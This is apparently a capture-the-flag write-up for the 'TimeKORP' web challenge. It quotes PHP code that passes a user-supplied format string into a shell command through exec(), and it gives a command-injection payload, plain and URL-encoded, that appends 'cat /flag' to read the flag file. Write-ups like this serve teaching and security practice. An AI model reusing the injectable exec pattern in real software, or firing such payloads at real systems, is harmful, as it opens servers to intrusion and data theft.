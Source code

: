 ```yaml
---
title: TimeKORP 
date: 2023-12-10T13:37:49+02:00
author: 1byteBoy
tags:
  - Web
draft: false
---
```


```
TimeKORP 
```

In the provided downloadable source code file, the `TimeModel.php` file has some interesting piece of code

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

It seems it's executing the `date` os command as 

```bash
date '+"%Y-%m-%d %H:%M:%S"' 2>&1
```

This hence is vulnerable to OS command injection vulnerability. Where we can create a payload like

```bash
"'&&cat /flag # 
```

better to url encode it `"'%26%26cat+/flag+%23`, which will read the flag from `/flag`.

Note: we can know the path fromt he Dockerfile